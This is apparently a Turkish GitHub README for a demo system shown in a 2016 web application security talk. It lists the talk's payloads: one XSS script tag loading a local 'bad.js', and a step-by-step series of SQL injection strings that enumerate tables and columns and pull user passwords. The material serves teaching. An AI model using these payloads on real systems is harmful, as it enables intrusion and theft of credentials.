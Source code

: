 # ab16WebUygulamaGuvenligi
Akademik Bilişim 2016 kapsamındaki Web Uygulama Güvenliği sunumunda demo yaptığım sistem.


## Demoda Kullanılan Payloadlar

#### XSS

```sh
<script src='http://127.0.0.1/demo_xss_sql/hack/bad.js'></script>
``` 

#### Sql Injection
> ' or true # 

> ' and 1=1

> ' and 1=2

> ' order by 3

> -{id} union select 1,2,3

> -{id} union select 1,database(),3

> -{id} union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='bitcs'

> -{id} union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='bitcs' and table_name='users'

> -{id} union select 1,password,3 from users where id=1

> -{id} union select 1,password,3 from users where username='omercitak'